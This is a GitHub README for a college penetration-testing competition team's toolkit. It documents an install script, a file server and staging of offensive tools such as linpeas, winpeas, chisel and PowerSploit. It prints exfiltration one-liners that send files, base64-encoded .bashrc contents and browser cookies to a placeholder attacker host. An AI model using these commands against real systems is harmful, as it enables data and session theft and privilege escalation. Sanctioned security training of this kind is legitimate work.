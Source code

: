 # City College of San Francisco

```
                    `.:/+ooooo//-.                                .-//ooooo+/:.`                    
               `-+ydNMh/:-----:oNMmhy+-`                    `-+yhmMNo:-----:/hMNhyo-`               
             /yds/.:Ny       `oNh:  ./shh+.              .+hhs/.  :hNo`       yN/./sdy/             
          `+ds-   `mm`      `dN:        .+hh/``      ``/hh+.        :Nh`      `mm    -ym+`          
         :my.     -Ms       sM:           /NmdddhsyhdddmN/           :Mo       sM-     .yd:         
       `sM+       :Mo       dm`         `hNhyyyyyyyyyyyyhNy.         `md       oM-       +My`       
      `hMM:       `mm..:/++odMs/-`    `omdyyyyyyyyyyyyyyyydmo.    `-/sMdo++/:..mm`       :MMh`      
     `hh+Mo     `:omMMMMMMMMMMMMMNds/sNdyyyyyyyyyyyyyyyyyyyydNs/sdNMMMMMMMMMMMMMmo:`     oM+hh`     
     sm` hN:  `oNMMMMMMMMMMMMMMMMMMMNdyyyyyyyyyyyyyyyyyyyyyyyydMMMMMMMMMMMMMMMMMMMMNo`  :Nd `ms     
    :N-  `sNdsmMMMMMMMMMNNmNMMMMMMMmyyyyyyyyyyyyyNNyyyyyyyyyyyyhmMMMMMMMNmNNMMMMMMMMMmsdNs`  :N:    
    yh     .mMMMMMMMMmo-`  ``:+yNMmmdhyyyyyyyyyyymNyyyyyyyyyyyydmmMNy+-.   `-oNMMMMMMMMm.     hy    
   `md    `dMMMMMMMMs`          smymNNdyyyyyyyyyyNNyyyyyyyyyydNNmyms          `sMMMMMMMMd`    dN`   
   `mM/   yMMMMmydNm+:`         :NyhNyNmyyyyyyyyhMMhyyyyyyyymNyNhyN-         `:+mNdymMMMMs   /Mm`   
    hMN: .MMMMMMNy+/hMNmdo:`    `mhdo+mdNdyyyyyhNMMNhyyyyydNdm+oddd`    `:odmNMh/+yNMMMMMN- :NMh    
    +NyNddMMMMMMMMdhNm+..:sdy/`  ddydsshdNNdhhdNMMMMNdhhdNNdhssdydy  `/hds:..+mNhmMMMMMMMMddNyM+    
    `ms`-sMMMMMMMMd `/yds-..:sms./mhyyyymdyhddhyyyyyyhddhymdyyyyhm/.sms:..-sdh/` dMMMMMMMMs-`sm`    
     :N: .MMMMMMMMM:   `+mMdmmdNN+:NmyyydMdyyyyyyyyyyyyyymMhyyhmN:/NNdmmdMN+`   /MMMMMMMMN- :N:     
      om- sMMMMMMMMNs-   :Ms `/dMM/NMmyhNMMhyyyyyyyyyyyydMMNyymMm:MMd/` sM:   -sNMMMMMMMMs -mo      
       oNhsNMMMMMMMMMMNmmMMM.   sMmMMyydhNMMhyyyyyyyyyyhMMNhdyhMNhMs   .MMMmmNMMMMMMMMMMNohNo       
        :mNs+mMMMMMMMMMMMMMMh`  /NmNNmmhyhMMNyyyyyyyyyhMMNhyddNNMhN/  `hMMMMMMMMMMMMMMm/sNm.        
         `+dh//hNMMMMMMMMMdsM+ /NsNdymMmyydMMNyyyyyyyyNMMdyymMmymmoN: oMsdMMMMMMMMMNh//hd/          
            :yms//odMNys+- oMosm/sNyyhMmyyymNmmyyyyyyNmNmyyyNNyyyMo/msoMo -+syMMdo//sds.            
              `:shNMm+-..-oNMdo`-NdyyymMNdyyNhhyyyyyyhhNyydNMmyyymm.`+dMN+-..-+mMNho-`              
                   `//ossso/.   sNyyyyyhNNdymhNNNmmNNdhdymNNhyyyyyM+   ./+sss++:.                   
                                sNhyyyyydNhyhyhyyNdyyyhhyhNdyyyyyhM+                                
                               :mmNhyyyyyNMmhyhddddddhydmMNyyyyydNmd`                               
                              -NhyyyyyyyyhNMMNmmmmmmmmNMMmyyyyyyyyydh                               
                              `:/+osyyyyyyhNMMMMMMMMMMMMmyyyyyyyyso+o.                              
                                     `..:::+ooossssssooo//::-..`
```

# Install

```
curl -sL https://raw.githubusercontent.com/nationalcptc-teamtools/City-College-of-San-Francisco/main/install.sh | bash -
```

# http server

Run it with the `tools` alias and it'll serve files from `~/tools`, and allow some exfil.

## exfil

### Powershell

```
Invoke-RestMethod -Uri http://host:8080/win-file/output-file-name.ext -Method Post -InFile input-file-name.ext
```

### Base64 File Exfil in url

You can exfil file contents in base64 as part of the url.  Just make a request similar to the following

```
curl "http://host:8080/b64-file/path/output-filename?f=$(base64 --wrap=0 .bashrc)"
```

### Log base64 contents

Example for in browser, this will just log the cookie contents to stdout.

```
fetch('http://host:8080/b64/' + btoa(document.cookie));
```

### curl

```
curl -F 'output-filename=@./path/input-file-name' http://host:8080/upload
```

## Tool retrieval

Some available files:
* chisel.exe
* chisel - linux binary
* winpeas.bat
* winpeas.exe
* win-privesc.zip - all modules from PowerSploit/PrivEsc
* win-recon.zip - all modules from PowerSploit/Recon
* linpeas.sh
* powerview.ps1
* pspy64 - statically linked pspy version
* various statically linked linux binaries in /linux-bin
* various statically linked windows binaries in /win-bin

### Windows

```
Invoke-WebRequest -Uri 'http://host:8080/winpeas.bat' -OutFile .\winpeas.bat
wget http://host:8080/winpeas.bat -outfile winpeas.bat
```

### Linux

```
curl http://host:8080/linpeas.sh -o lp.sh
wget http://host:8080/linpeas.sh
```

## SMB Server

Serve tools from `~/tools` with the `smb` alias
